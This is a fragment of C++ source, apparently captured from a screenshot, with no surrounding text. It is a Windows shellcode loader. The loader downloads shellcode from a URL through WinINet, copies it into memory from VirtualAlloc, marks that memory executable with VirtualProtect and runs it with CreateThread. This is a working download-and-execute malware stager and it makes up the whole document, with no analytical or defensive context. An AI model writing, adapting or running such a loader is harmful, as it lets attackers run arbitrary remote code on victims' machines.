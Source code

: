 ```cpp
        std::cerr << "InternetOpenUrlA failed: " << GetLastError() << "\n";
        InternetCloseHandle(hInternet);
        return 1;
    }

    // ---- Read shellcode into memory ----
    std::vector<char> shellcode;
    char chunk[4096];
    DWORD bytesRead = 0;
    while (InternetReadFile(hUrl, chunk, sizeof(chunk), &bytesRead) && bytesRead > 0) {
        shellcode.insert(shellcode.end(), chunk, chunk + bytesRead);
    }

    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    if (shellcode.empty()) {
        std::cerr << "Failed to download shellcode.\n";
        return 1;
    }

    // ---- Allocate writeable memory ----
    void* mem = VirtualAlloc(NULL, shellcode.size(), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!mem) {
        std::cerr << "VirtualAlloc failed: " << GetLastError() << "\n";
        return 1;
    }

    // ---- Copy shellcode ----
    memcpy(mem, shellcode.data(), shellcode.size());

    // ---- Change memory protection to executable ----
    DWORD oldProtect;
    if (!VirtualProtect(mem, shellcode.size(), PAGE_EXECUTE_READ, &oldProtect)) {
        std::cerr << "VirtualProtect failed: " << GetLastError() << "\n";
        VirtualFree(mem, 0, MEM_RELEASE);
        return 1;
    }

    // ---- Run shellcode on a new thread ----
    HANDLE hThread = CreateThread(
        NULL,                           // default security
        0,                              // default stack size
        (LPTHREAD_START_ROUTINE)mem,    // shellcode
        NULL,                           // parameter
        0,                              // default creation flags
        NULL                            // thread id
    );

    if (!hThread) {
        std::cerr << "CreateThread failed: " << GetLastError() << "\n";
        VirtualFree(mem, 0, MEM_RELEASE);
        return 1;
    }

    // Wait for shellcode to finish (optional)
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    // ---- Free memory ----
    VirtualFree(mem, 0, MEM_RELEASE);

    return 0;
```